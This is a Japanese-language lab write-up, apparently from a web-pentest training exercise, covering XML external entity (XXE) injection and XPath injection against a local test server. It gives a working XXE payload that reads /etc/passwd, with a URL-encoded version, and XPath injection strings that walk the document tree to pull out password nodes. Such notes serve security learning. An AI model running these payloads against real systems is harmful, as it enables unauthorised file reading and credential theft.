 >外部エンティティ: 有効なエンティティのセットは、新しいエンティティを定義することで拡張できます。エンティティの定義が URI である場合、そのエンティティは外部エンティティと呼ばれます。別の方法で構成されていない限り、外部エンティティは XML パーサーに URI で指定されたリソース (ローカル マシンまたはリモート システム上のファイルなど) へのアクセスを強制します。この動作により、アプリケーションが XML eXternal Entity (XXE) 攻撃にさらされ、ローカル システムのサービス拒否の実行、ローカル マシン上のファイルへの不正アクセスの取得、リモート マシンのスキャン、およびリモート システムのサービス拒否の実行に使用される可能性があります。 
# <span style="color: blue;">Example 1</span>
XML パーサーの中には、外部エンティティを解決し、XML メッセージを制御するユーザーがリソースにアクセスすることを許可するものがあります (たとえば、システム上のファイルを読み取るなど)   
次のエンティティを宣言できます。
```
<!ENTITY xxs SYSTEM "file:///etc/passwd">
```
正しく機能させるには、これを適切にエンベロープする必要があります。
```
<!DOCTYPE test [<!ENTITY xxe SYSTEM "file:///etc/passwd">]><test>&xxe;</test>   
```
全てURLエンコードすると実行できる。   
```
http://192.168.100.185/xml/example1.php?xml=%3c%21%44%4f%43%54%59%50%45%20%74%65%73%74%20%5b%3c%21%45%4e%54%49%54%59%20%78%78%65%20%53%59%53%54%45%4d%20%22%66%69%6c%65%3a%2f%2f%2f%65%74%63%2f%70%61%73%73%77%64%22%3e%5d%3e%3c%74%65%73%74%3e%26%78%78%65%3b%3c%2f%74%65%73%74%3e
```
![9aad74f3b7785bfa511c1e12cf18576f.png](../../_resources/9aad74f3b7785bfa511c1e12cf18576f.png)
# <span style="color: blue;">Example 2</span>
この例では、コードは XPath 式内でユーザーの入力を使用します。XPath は、XML ドキュメントからノードを選択するクエリ言語です。XML 文書がデータベースであり、XPath が SQL クエリであると想像してください。クエリを操作できる場合は、通常はアクセスできない要素を取得できます。

一重引用符を挿入すると、次のエラーが表示されます。   
![fc8f3ccda157ab88339832508b5823e2.png](../../_resources/fc8f3ccda157ab88339832508b5823e2.png)   
SQL インジェクションと同様に、XPath ではブール論理を実行できます。次のことを試すことができます。

- <span style="color:DeepSkyBlue;">' and '1'='1</span>同じ結果が得られるはずです。
- <span style="color:DeepSkyBlue;">' or '1'='0</span>同じ結果が得られるはずです。
- <span style="color:DeepSkyBlue;">' and '1'='0</span>結果が得られないはずです。
- <span style="color:DeepSkyBlue;"> ' or '1'='1</span>すべての結果が得られるはずです。

![976fae1ced3da634fdfced7ab0778fcc.png](../../_resources/976fae1ced3da634fdfced7ab0778fcc.png)    
他のタグに保持されているデータにアクセスしてみましょう。   
では、どうすればこのデータにアクセスできるでしょうか? ここで、PHP DOM (Document Object Model) 構造が頭に浮かびます。   
現在のノードのすべての子を `child::node()` で選択しましょう。 [XPath Axes](https://www.w3schools.com/xml/xpath_axes.asp) を使用して、この情報にアクセスできます。  
|Example|Result|
|--|--|
|child::book|現在のノードの子であるすべてのブックノードを選択します|
|attribute::lang|現在のノードの lang 属性を選択します|
|child:: * | 現在のノードの全ての子要素を選択します|
|attribute:: * | 現在のノードの全ての属性を選択する|
|child::text()| 現在のノードのすべてのテキストノードの子を選択します|
|child::node()| 現在のノードのすべての子を選択します|
|descendant::book| 現在のノードのすべての book の子孫を選択します|
|ancestor::book| 現在のノードのすべてのブックの祖先を選択します|
|ancestor-or-self::book| 現在のノードの本の祖先をすべて選択します - 本ノードであれば現在のノードも同様です|
|child:: */child::price | 現在のノードの価格の孫をすべて選択します|

```
hacker'%20or%20'1'='1']/child::node()%00
```

![bf0fce38f1a3ff3eabdc959f6d7f26d0.png](../../_resources/bf0fce38f1a3ff3eabdc959f6d7f26d0.png)   
エラーは表示されないが大した情報出てこないのでノードの階層を遡る。   
XPath では、ペイロードの一部として parent::* を使用してこれを行うことができます。   
```
hacker'%20or%201=1]/parent::*/child::node()%00
```
![30a1dcde73645ea74af912059a60af96.png](../../_resources/30a1dcde73645ea74af912059a60af96.png)
パスワード情報を取得する場合
```
hacker'%20or%201=1]/parent::node()/password%00
```

![cd48205d62e69eb55cd1c4f6fc650a7d.png](../../_resources/cd48205d62e69eb55cd1c4f6fc650a7d.png)